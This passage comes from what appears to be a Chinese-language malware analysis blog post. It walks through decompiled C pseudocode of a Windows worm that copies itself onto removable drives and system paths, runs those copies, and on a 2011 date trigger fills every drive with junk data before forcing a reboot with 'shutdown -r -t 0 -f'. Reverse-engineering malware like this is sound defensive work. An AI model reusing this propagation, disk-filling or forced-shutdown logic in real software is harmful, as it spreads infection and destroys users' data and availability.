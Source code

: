       wsprintfA(&ExistingFileName, aSWinlogon_exe, &Buffer);
      sub_4011E0(&Data);
      CopyFileA(&ExistingFileName, NewFileName, 1);
    }
    sub_4012A0(&Data);
    sub_401580();
  }
  if(v3 == 2) // DRIVE_REMOVALVE
  {
    if(!sub_4012C0())
    {
      GetSystemDirectoryA(&Data, 0x104u);
      wsprintfA(&ExistingFileName, aSmydocument_ex, &RootPathName);
      wsprintfA(&FileName, aCCCprogramFile, Data, v10, v11);
      strcat(&FileName, aSystem_caca);
      sub_4012A0(&FileName);
      sub_4011E0(&FileName);
      CopyFileA(&ExistingFileName, NewFileName, 1);
      wsprintfA(&File, aSmydocument, &RootPathName);
      ShellExecuteA(0, Operation, &File, 0, 0, 1);
      sub_401580();
    }
    result = sub_4012C0();
    if(result)
    {
      wsprintfA(&File, aSmydocuments, &Buffer);
      result = (int)ShellExecuteA(0, Operation, &File, 0, 0, 1);
    }
  }
  return result;
{% endhighlight %}

下面具体分析流程。

首先执行`sub_401150`，判断当前日期是否在2011年4月1日到2011年5月2日之间，如果不是则什么也不做；如果是，则调用`sub_4010A0`，后重启计算机。`sub_4010A0`比较可恶，它从C到K尝试盘符，并调用`sub_401000`企图把每个存在的磁盘塞满（占用大约78GB空间）。

{% highlight c linenos %}
int sub_401150()
{
  int result;
  struct _SYSTEMTIME SystemTime;

  *(_DWORD *)&SystemTime.wYear = 0;
  *(_DWORD *)&SystemTime.wDayOfWeek = 0;
  *(_DWORD *)&SystemTime.wHour = 0;
  *(_DWORD *)&SystemTime.wSecond = 0;
  GetLocalTime(&SystemTime);
  result = SystemTime.wDay + 100 * (SystemTime.wMonth + 100 * SystemTime.wYear);
  if ( result - 20110400 > 0 )
  {
    result -= 20110501;
    if ( result < 0 )
    {
      sub_4010A0();
      Sleep(0x36EE80u);
      result = system(aShutdownRT0F); // shutdown -r -t 0 -f
    }
  }
  return result;
}

UINT sub_4010A0()
{
  signed int v0; // ebp@1
  char v1; // bl@2